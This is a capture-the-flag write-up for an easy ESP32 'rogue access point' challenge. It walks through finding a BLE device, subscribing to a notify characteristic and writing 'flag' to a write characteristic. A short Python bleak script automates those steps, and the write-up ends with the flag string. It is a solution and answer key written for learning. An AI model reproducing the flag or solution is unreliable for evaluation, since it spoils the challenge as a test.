


# Write-Up 3xF1ltr4tor 


## Description:
```
    A strange access point with a web server is open, named: `PWNME_Free_APx`.
    I suspect it might be a rogue access point because I tried to log in, but I dont get my WiFi !
    It’s up to you to investigate and find out how it exfiltrates your data!
    This 3xF1ltr4tor is build on ESP32
    Search OTA :)
```
- **Difficulty:** easy
- **Author:** Eun0us


## Introduce 
Connect u to an Access Point PWNME_FREE_AP1


So u gain access to an Access Point with a server web on port 80 (http://192.168.4.1:80)

Now u are on an little EvilTwin 

Look i post nothing happend :(

- Web Attack is not the way !
- No MITM, No NMAP  

## Search OTA

a basic esp32 provide WiFi **and** BLE 
So basicly just look on u r ble !


there is *PWNED_BLE_1*.

### Characteristic

UUID: 9abc0001-1234-5678-9abc-def012345678 / **READ** char -> ```key=flag```
UUID: 9abc0002-1234-5678-9abc-def012345678 / **WRITE** char -> if(input == key) -> **Notifiy
UUID: 9abc0003-1234-5678-9abc-def012345678 / **NOTIFY** char -> "Maybe return the flag ?"


## Exploit 

Step:
- scan devices 
- Connect to the *exfiltrator* device 
- Subscribe Notify *9abc0003-1234-5678-9abc-def012345678*
- Send 'flag' to *9abc0002-1234-5678-9abc-def012345678*
- Wait for response 

**exploit.py**
```py 
import asyncio
from bleak import BleakClient, BleakScanner
import base64

# BLE UUIDs
SERVICE_UUID = "9abc0000-1234-5678-9abc-def012345678"
CHAR_WRITE_UUID = "9abc0002-1234-5678-9abc-def012345678"
CHAR_NOTIFY_UUID = "9abc0003-1234-5678-9abc-def012345678"

received_flag = ""
exfiltrator = "Pwned_BLE_1" # U can search for any devices

# Notify Call Back Fonction
def notification_handler(sender, data):
    global received_flag
    print(f"[*] Notification : {data}")
    try:
        decoded = base64.b64decode(data).decode()
        print(f"[*] Decoded string : {decoded}")
        received_flag = decoded
    except Exception as e:
        print(f"[!] Erreur de décodage : {e}")

async def main():
    print("[*] Discover device BLE...")
    devices = await BleakScanner.discover(timeout=5.0)

    target = None
    for d in devices:
        if d.name and exfiltrator in d.name: 
            target = d
            break

    if not target:
        print(".")
        return

    print(f"[+] Connected to {target.name} ({target.address})...")
    async with BleakClient(target.address) as client:
        print("[✓] Connected.")

        # Subscribe NOTIFY
        await client.start_notify(CHAR_NOTIFY_UUID, notification_handler)
        print("[*] Abonné à la caractéristique notify.")

        # Send 'flag' to trigger the server
        await client.write_gatt_char(CHAR_WRITE_UUID, b"flag") # bytes("flag")
        print(f"[→] 'flag' send to {target.name}.")

        # Wait max 5 sec for Notification
        await asyncio.sleep(5)

        await client.stop_notify(CHAR_NOTIFY_UUID)

        if received_flag:
            print(f"\n [{received_flag}] \n")
        else:
            print("")

asyncio.run(main())
```



GG ! U flag *PWNME{3xF1ltr4t0r_s3rv_Bl3}*